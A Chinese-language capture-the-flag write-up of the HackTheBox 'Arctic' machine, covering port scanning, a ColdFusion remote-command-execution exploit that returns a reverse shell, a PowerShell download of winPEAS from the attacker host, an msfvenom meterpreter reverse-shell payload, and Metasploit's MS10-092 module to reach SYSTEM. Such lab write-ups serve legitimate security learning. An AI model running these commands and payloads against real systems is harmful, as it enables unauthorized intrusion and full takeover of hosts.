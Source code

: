 # 免责声明
>本文渗透的主机经过合法授权。本文使用的工具和方法仅限学习交流使用，请不要将文中使用的工具和渗透思路用于任何非法用途，对此产生的一切后果，本人不承担任何责任，也不对造成的任何误用或损害负责。

# 服务发现
```
┌──(root💀kali)-[~/htb/Arctic]
└─# nmap -Pn -sV 10.10.10.11 -p-
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-12-14 10:26 EST
Nmap scan report for 10.10.10.11
Host is up (0.26s latency).
Not shown: 65532 filtered ports
PORT      STATE SERVICE VERSION
135/tcp   open  msrpc   Microsoft Windows RPC
8500/tcp  open  fmtp?
49154/tcp open  msrpc   Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

```

连个web服务都没有，一下子有点懵。。
8500端口不太常见，尝试在浏览器上打开，非常慢，但是存在一个文件遍历漏洞

```
Index of /

CFIDE/               dir   03/22/17 08:52 μμ
cfdocs/              dir   03/22/17 08:55 μμ

```

下面路径是一个cms的登录页面
```
http://10.10.10.11:8500/CFIDE/administrator/
```

看title上的cms名字：```ColdFusion```

在谷歌找了几个这个cms的exp，找到了这个[Remote Command Execution](https://www.exploit-db.com/exploits/50057)

下载到本地，修改本地ip和端口

执行攻击：
```
rinting some information for debugging...
lhost: 10.10.14.6
lport: 4444
rhost: 10.10.10.11
rport: 8500
payload: 7ed641ce03ea4eaa92aca6d9ef4c60ab.jsp

Deleting the payload...

Listening for connection...

Executing the payload...
listening on [any] 4444 ...
connect to [10.10.14.6] from (UNKNOWN) [10.10.10.11] 49510

Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\ColdFusion8\runtime\bin>whoami
whoami
arctic\tolis

C:\ColdFusion8\runtime\bin>

```

拿到了初始shell。。

# 提权

传winpea到靶机
```
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.14.6:8000/winPEAS.bat','c:\Users\tolis\Desktop\winPEAS.bat')"
```

根据winpea枚举显示，靶机缺少较多补丁，可能可以利用来提权

```
                                                                                                                                                                                                                                            
"Microsoft Windows Server 2008 R2 Standard "                                                                                                                                                                                                
   [i] Possible exploits (https://github.com/codingo/OSCP-2/blob/master/Windows/WinPrivCheck.bat)                                                                                                                                           
MS11-080 patch is NOT installed XP/SP3,2K3/SP3-afd.sys)                                                                                                                                                                                     
MS16-032 patch is NOT installed 2K8/SP1/2,Vista/SP2,7/SP1-secondary logon)                                                                                                                                                                  
MS11-011 patch is NOT installed XP/SP2/3,2K3/SP2,2K8/SP2,Vista/SP1/2,7/SP0-WmiTraceMessageVa)                                                                                                                                               
MS10-59 patch is NOT installed 2K8,Vista,7/SP0-Chimichurri)                                                                                                                                                                                 
MS10-21 patch is NOT installed 2K/SP4,XP/SP2/3,2K3/SP2,2K8/SP2,Vista/SP0/1/2,7/SP0-Win Kernel)                                                                                                                                              
MS10-092 patch is NOT installed 2K8/SP0/1/2,Vista/SP1/2,7/SP0-Task Sched)                                                                                                                                                                   
MS10-073 patch is NOT installed XP/SP2/3,2K3/SP2/2K8/SP2,Vista/SP1/2,7/SP0-Keyboard Layout)                                                                                                                                                 
MS17-017 patch is NOT installed 2K8/SP2,Vista/SP2,7/SP1-Registry Hive Loading)                                                                                                                                                              
MS10-015 patch is NOT installed 2K,XP,2K3,2K8,Vista,7-User Mode to Ring)                                                                                                                                                                    
MS08-025 patch is NOT installed 2K/SP4,XP/SP2,2K3/SP1/2,2K8/SP0,Vista/SP0/1-win32k.sys)                                                                                                                                                     
MS06-049 patch is NOT installed 2K/SP4-ZwQuerySysInfo)                                                                                                                                                                                      
MS06-030 patch is NOT installed 2K,XP/SP2-Mrxsmb.sys)                                                                                                                                                                                       
MS05-055 patch is NOT installed 2K/SP4-APC Data-Free)                                                                                                                                                                                       
MS05-018 patch is NOT installed 2K/SP3/4,XP/SP1/2-CSRSS)                                                                                                                                                                                    
MS04-019 patch is NOT installed 2K/SP2/3/4-Utility Manager)                                                                                                                                                                                 
MS04-011 patch is NOT installed 2K/SP2/3/4,XP/SP0/1-LSASS service BoF)                                                                                                                                                                      
MS04-020 patch is NOT installed 2K/SP4-POSIX)                                                                                                                                                                                               
MS14-040 patch is NOT installed 2K3/SP2,2K8/SP2,Vista/SP2,7/SP1-afd.sys Dangling Pointer)                                                                                                                                                   
MS16-016 patch is NOT installed 2K8/SP1/2,Vista/SP2,7/SP1-WebDAV to Address)                                                                                                                                                                
MS15-051 patch is NOT installed 2K3/SP2,2K8/SP2,Vista/SP2,7/SP1-win32k.sys)                                                                                                                                                                 
MS14-070 patch is NOT installed 2K3/SP2-TCP/IP)                                                                                                                                                                                             
MS13-005 patch is NOT installed Vista,7,8,2008,2008R2,2012,RT-hwnd_broadcast)                                                                                                                                                               
MS13-053 patch is NOT installed 7SP0/SP1_x86-schlamperei)                                                                                                                                                                                   
MS13-081 patch is NOT installed 7SP0/SP1_x86-track_popup_menu)   
```

编译一个meterpreter的shell传到靶机，方便我们利用补丁提权:

```msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.6 LPORT=4455 -f exe > shell64.exe```


拿到反弹的session以后，选择```MS10-092```补丁的利用模块

```
msf6 > search MS10-092

Matching Modules
================

   #  Name                                        Disclosure Date  Rank       Check  Description
   -  ----                                        ---------------  ----       -----  -----------
   0  exploit/windows/local/ms10_092_schelevator  2010-09-13       excellent  Yes    Windows Escalate Task Scheduler XML Privilege Escalation


Interact with a module by name or index. For example info 0, use 0 or use exploit/windows/local/ms10_092_schelevator

```

设置好参数

```
msf6 exploit(windows/local/ms10_092_schelevator) > options

Module options (exploit/windows/local/ms10_092_schelevator):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   CMD                        no        Command to execute instead of a payload
   SESSION   2                yes       The session to run this module on.
   TASKNAME                   no        A name for the created task (default random)


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     tun0             yes       The listen address (an interface may be specified)
   LPORT     4466             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows Vista, 7, and 2008

```

发动攻击
```
msf6 exploit(windows/local/ms10_092_schelevator) > run

[*] Started reverse TCP handler on 10.10.14.6:4466 
[*] Preparing payload at C:\Users\tolis\AppData\Local\Temp\bHVjZOnFoCage.exe
[*] Creating task: wHs9mNJi8EUp2
[*] SUCCESS: The scheduled task "wHs9mNJi8EUp2" has successfully been created.
[*] SCHELEVATOR
[*] Reading the task file contents from C:\Windows\system32\tasks\wHs9mNJi8EUp2...
[*] Original CRC32: 0xc87307c
[*] Final CRC32: 0xc87307c
[*] Writing our modified content back...
[*] Validating task: wHs9mNJi8EUp2
[*] 
[*] Folder: \
[*] TaskName                                 Next Run Time          Status         
[*] ======================================== ====================== ===============
[*] wHs9mNJi8EUp2                            1/1/2022 6:04:00 ��    Ready          
[*] SCHELEVATOR
[*] Disabling the task...
[*] SUCCESS: The parameters of scheduled task "wHs9mNJi8EUp2" have been changed.
[*] SCHELEVATOR
[*] Enabling the task...
[*] SUCCESS: The parameters of scheduled task "wHs9mNJi8EUp2" have been changed.
[*] SCHELEVATOR
[*] Executing the task...
[*] Sending stage (200262 bytes) to 10.10.10.11
[*] SUCCESS: Attempted to run the scheduled task "wHs9mNJi8EUp2".
[*] SCHELEVATOR
[*] Deleting the task...
[*] Meterpreter session 3 opened (10.10.14.6:4466 -> 10.10.10.11:49789) at 2021-12-15 03:06:45 -0500
[*] SUCCESS: The scheduled task "wHs9mNJi8EUp2" was successfully deleted.
[*] SCHELEVATOR

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM

```

成功提权到```AUTHORITY\SYSTEM```


